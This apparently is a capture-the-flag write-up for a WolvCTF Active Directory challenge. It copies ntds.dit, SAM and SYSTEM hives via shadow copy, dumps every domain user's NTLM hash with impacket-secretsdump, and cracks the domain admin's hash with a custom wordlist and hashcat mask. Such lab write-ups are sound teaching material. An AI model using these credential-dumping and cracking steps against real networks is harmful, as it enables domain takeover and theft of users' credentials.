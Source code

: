 # Part 1: Obtaining Jessica's password hash

Lets pick up where we left off with part 2 and scan the newly taken over account, Patrick's


```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat patrick/Desktop/note_from_jake.txt                                                     
If you need anything backed up you can just use my account:

Password: fwa3fe8#FEwef 
```

![](Pasted_image_20250319012529.png)

Now, lets check Jake's

```
cat jake/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt 
```

![](Pasted_image_20250319012638.png)

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat jake/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt 
cd C:\Users\Public\Downloads
whoami
cd C:\Users\jake\desktop
whoami /all > whoami.txt
type .\whoami.txt
cd C:\Users\public
cd downloads
diskshadow.exe /s script.txt
diskshadow.exe /s script.txt > shadow.txt
type .\shadow.txt
cp .\shadow.txt C:\Users\jake\desktop\shadow.txt
del shadow.txt
robocopy /b z:\windows\ntds . ntds.dit > robo.txt
type .\robo.txt
dir
del robo.txt
cp ntds.dit C:\Users\jake\downloads
del ntds.dit
cd C:\Users\jake\downloads
dir
reg save hklm\system c:\users\jake\downloads\system.hive
reg save hklm\sam C:\users\jake\downloads\sam.hive
dir
cp * C:\Users\public
del C:\Users\public\ntds.dit
del C:\Users\public\sam.hive
del C:\Users\public\system.hive
runas /User:wolvctf\jessica
runas /User:wolvctf\jessica cmd
```

We can see that they used diskshadow to perform a volume shadow copy of the NTDS, SAM hive, and SYSTEM hive. Let's use `impacket` to dump those secrets

```
impacket-secretsdump -ntds ntds.dit -system system.hive -sam sam.hive LOCAL
```

```
┌──(kali㉿kali)-[~/…/challenge/Users - Copy/jake/Downloads]
└─$ impacket-secretsdump -ntds ntds.dit -system system.hive -sam sam.hive LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x32032d8f6ff9102e4202d192c152e02a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1b921e44ea5dfd940c004044d4ef4cae:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a802330d6d1dca4a57a459990af5e50e
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1b921e44ea5dfd940c004044d4ef4cae:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:b60be13c1c27a48e5c5afc10792afeab:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7f27814ee1fea90dc7495b265207db9d:::
mssql_service:2102:aad3b435b51404eeaad3b435b51404ee:6092ca0e60d24f30d848a5def59d4753:::
wolvctf.corp\james:4101:aad3b435b51404eeaad3b435b51404ee:4c20abe87d36b9ad715fd5671545abb5:::
wolvctf.corp\emily:4102:aad3b435b51404eeaad3b435b51404ee:5c7a26ae4c40018fa1660cc2f1d82269:::
wolvctf.corp\john:4103:aad3b435b51404eeaad3b435b51404ee:d24c1456aefeab3eb911c8015b9f6ce4:::
wolvctf.corp\patrick:4104:aad3b435b51404eeaad3b435b51404ee:0311f96ce47c5cc21529fcc8375f9c2e:::
wolvctf.corp\katherine:4105:aad3b435b51404eeaad3b435b51404ee:89218e0b151209e9d4fa0768ea72c70d:::
wolvctf.corp\Amy:4106:aad3b435b51404eeaad3b435b51404ee:4aa4474c2886f6a796bd75eebe5ebf01:::
wolvctf.corp\jessica:4107:aad3b435b51404eeaad3b435b51404ee:8fcdcffba18f392df7aa291527290aff:::
wolvctf.corp\frank:4108:aad3b435b51404eeaad3b435b51404ee:b0212745c59fcf54f06ea501cd409ff5:::
wolvctf.corp\chris:4109:aad3b435b51404eeaad3b435b51404ee:253cfc1375d39308ab1bb935b44e2010:::
wolvctf.corp\renee:4110:aad3b435b51404eeaad3b435b51404ee:9b5109ef6dbc8086ed36a90c20aa1d48:::
wolvctf.corp\peter:4111:aad3b435b51404eeaad3b435b51404ee:4f3cde005948d4e4fb232c35014ccafb:::
wolvctf.corp\dan:4112:aad3b435b51404eeaad3b435b51404ee:e9d959da74f5c7590a80d635b36705a6:::
...
```

![](Pasted_image_20250319013007.png)

From our bloodhound output, we know jessica is the domain admin. We want to focus on her NTLM hash:
```
wolvctf.corp\jessica:4107:aad3b435b51404eeaad3b435b51404ee:8fcdcffba18f392df7aa291527290aff:::
```

![](Pasted_image_20250319013405.png)


```
8fcdcffba18f392df7aa291527290aff
```

---
## Cracking Jessica's password hash

If you want to view the raw bloodhound data, it will show the description for the `Domain Admins` Group that Jessica is a part of
![](Pasted_image_20250319013740.png)

```
Members who are part of this group have passwords w then a c then a t and an f, curly bracket left, 'bloodhound_is_cool_' (but all the 'o's are '0's), then a city in all lowercase appended by 3 numbers (secret only you know),  right curly bracket
```

Take a word list that has a lot of cities, as such:
https://github.com/kkrypt0nn/wordlists/blob/main/wordlists/security_question_answers/cities.txt

Lets modify the wordlist

```python
with open("cities.txt", "r") as file:
    cities = file.readlines()

formatted_cities = []
for city in cities:
    city = "wctf{bl00dh0und_is_c00l_" + city.strip().lower()
    formatted_cities.append(city)

with open("cities_wordlist.txt", "w") as file:
    for formatted_city in formatted_cities:
        file.write(formatted_city + "\n")

print("Formatted cities have been written to cities_wordlist.txt")
```

And crack using a hashcat masking rule to append 3 digits to the end of it

```
hashcat -a 6 -m 1000 jessica.hash cities_wordlist.txt "?d?d?d}"
```

![](Pasted_image_20250319014210.png)

```
┌──(kali㉿kali)-[~/ctf/Active]
└─$ hashcat -a 6 -m 1000 jessica.hash cities_wordlist.txt "?d?d?d}" 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-12th Gen Intel(R) Core(TM) i7-1280P, 1424/2913 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

INFO: All hashes found as potfile and/or empty entries! Use --show to display them.

Started: Wed Mar 19 01:41:52 2025
Stopped: Wed Mar 19 01:41:53 2025
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/ctf/Active]
└─$ hashcat -a 6 -m 1000 jessica.hash cities_wordlist.txt "?d?d?d}" --show
8fcdcffba18f392df7aa291527290aff:wctf{bl00dh0und_is_c00l_votuporanga985}
```

Flag:

```
wctf{bl00dh0und_is_c00l_votuporanga985}
```